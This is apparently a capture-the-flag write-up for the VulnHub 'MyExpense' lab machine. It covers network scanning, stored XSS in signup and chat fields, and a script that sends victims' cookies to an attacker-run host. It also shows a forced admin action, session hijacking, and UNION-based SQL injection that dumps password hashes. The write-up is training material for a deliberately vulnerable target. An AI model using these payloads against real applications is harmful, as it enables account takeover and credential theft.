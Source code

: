 # MyExpense

- **Target Machine - MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)

---

## Scenario

You are **Samuel Lamotte**, and you’ve just been fired from your company **Furtura Business Informatique**. Unfortunately, due to the abrupt departure, you didn’t have the chance to validate the expense report from your last business trip, totaling €750 — the cost of a round-trip flight with your last client.
Fearing your former employer might refuse to reimburse you, you decide to hack into the internal application called **"MyExpense"**, used by the company to manage employee expense reports.
 
You are currently parked outside the company building, connected to the internal Wi-Fi network (the password hasn’t been changed since your departure). The application is protected by a login form with username and password authentication. You hope your credentials still work.

Known credentials:  
`slamotte:fzghn4lw`

Once the challenge is completed successfully, the flag will appear within the application while logged in as **Samuel**.

---

## 1. Discovery and Initial Enumeration

### Network Discovery and IP Identification

Discovered the machine’s IP: `192.168.56.101`

```bash
arp-scan -I enp0s8 --localnet --ignoredups
````

### Full Port Scan

Once the IP was known, a full port scan was performed:

```bash
nmap -sS -Pn -n -p- --min-rate --open 5000 192.168.56.101 -oG ./nmap/allports
```

![Nmap All Ports](images/Pasted%20image%2020250719171605.png)

Since the challenge context mentions a web application, focus was directed to port 80.

### Service Enumeration

```bash
nmap -sCV -p80 -Pn -n 192.168.56.101 -oN ./nmap/recon
```

![Nmap Recon](images/Pasted%20image%2020250719172052.png)

The scan revealed valuable insights, such as the presence of an `/admin/` directory. Additionally, it showed the absence of the `HttpOnly` flag, which may leave the application vulnerable to cookie theft.

---

### Accessing Admin Interface

Accessing the directory `http://192.168.56.101/admin/admin.php` revealed a list of active and inactive users. Our user `slamotte` appears as **inactive**.

![Admin Interface](images/Pasted%20image%2020250719172553.png)

---

## 2. Exploitation - Account Creation and Stored XSS

It was found that the **signup button** could be bypassed to create new users even when it appeared disabled.

![Signup Form](images/Pasted%20image%2020250719173049.png)

Upon discovering this, an attempt was made to inject a basic XSS payload into the `firstname` and `lastname` fields. It was successful:

```javascript
<script>alert("XSS")</script>
```

Returning to `http://192.168.56.101/admin/admin.php`, the alert was triggered:

![XSS Triggered](images/Pasted%20image%2020250719173537.png)

---

### Cookie Theft Attempt

Attempted to steal cookies by injecting a malicious script in the form:

```javascript
<script src="http://192.168.56.102/robcookies.js">

	var request = new XMLHttpRequest();
	request.open('GET','http://10.0.2.15/?cookie=' + document.cookie );
	request.send();

</script>
```

Successfully captured the admin (`rmasson`) cookies. However, session hijacking failed due to a restriction: only **one session per user** is allowed simultaneously.

---

### Forced Admin Action via XSS

The admin user (`rmasson`) actively monitors new user registrations. Knowing this, an XSS payload was crafted to **force the admin to reactivate** the `slamotte` account via a crafted request:

```javascript
<script src="http://192.168.56.102/script.js"></script>
```

The hosted script contained:

```javascript
var domain = " http://192.168.56.101/admin/admin.php?id=11&status=active";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();
```

Started the listener:

```bash
python -m http.server 80
```

![Listener Started](images/Pasted%20image%2020250719180209.png)

---

## 3. Access Recovered and Expense Submitted

Successfully logged into the **slamotte** account. The €750 expense was still pending and was submitted:

![Expense Submitted](images/Pasted%20image%2020250719180743.png)

---

## 4. XSS in Internal Chat & Session Hijacking

The platform includes a chat feature with messages from both the **Manager (Manon Riviere)** and the **Finance Approver**.

![Chat Feature](images/Pasted%20image%2020250719181214.png)

Suspecting the chat might be vulnerable to XSS, the following script was injected:

```javascript
<script src="http://192.268.56.102:4749/robcookies.js"></script>
```

Script content:

```javascript
var request = new XMLHttpRequest();
request.open('GET','http://192.268.56.102:4444/?cookie=' + document.cookie);
request.send();
```

Cookies from chat users were successfully exfiltrated:

![Cookies Exfiltrated](images/Pasted%20image%2020250719183341.png)

Switched session to the **manager (Manon Riviere)** using the cookie:
`6tqplpcj4n4dl43kig1dipdc32`

![Manager Session](images/Pasted%20image%2020250719183914.png)

With manager access, approved the previously submitted expense:

![Expense Approved](images/Pasted%20image%2020250719184016.png)

---

## 5. SQL Injection - Extracting Credentials

While browsing the **Rennes** section, it was found that the parameter `?id=` was vulnerable to SQL Injection.

Confirmed with:

```http
http://192.168.56.101/site.php?id=2 order by 2 -- -
```

![SQL Order By](images/Pasted%20image%2020250719184415.png)

Extracted the database name using:

```http
http://192.168.56.101/site.php?id=2 union select 1,database()-- -
```

![Database Extracted](images/Pasted%20image%2020250719184739.png)

Listed all tables:

```http
http://192.168.56.101/site.php?id=2 union select 1,table_name from information_schema.tables where table_schema='myexpense'-- -
```

![Tables Listed](images/Pasted%20image%2020250719185243.png)

Targeted the `user` table and listed its columns:

```http
http://192.168.56.101/site.php?id=2 union select 1,column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```

![Columns Listed](images/Pasted%20image%2020250719185605.png)

Finally, dumped usernames and password hashes:

```http
http://192.168.56.101/site.php?id=2 union select 1,group_concat(username,0x3a,password) from user-- -
```

![Hashes Dumped](images/Pasted%20image%2020250719185939.png)

Used **hashes.com** to crack the hashes online.

The relevant user was: `pbaudouin`
Recovered password in plaintext: `HackMe`

![Password Cracked](images/Pasted%20image%2020250719190204.png)

---

## 6. Final Step – Expense Fully Approved

Logged in as `pbaudouin`, found the pending expense and approved it:

![Final Approval](images/Pasted%20image%2020250719190514.png)

Finally, logged back in as `slamotte` to confirm that the €750 reimbursement was approved and completed:

![Challenge Completed](images/Pasted%20image%2020250719190657.png)

✅ Challenge successfully completed.
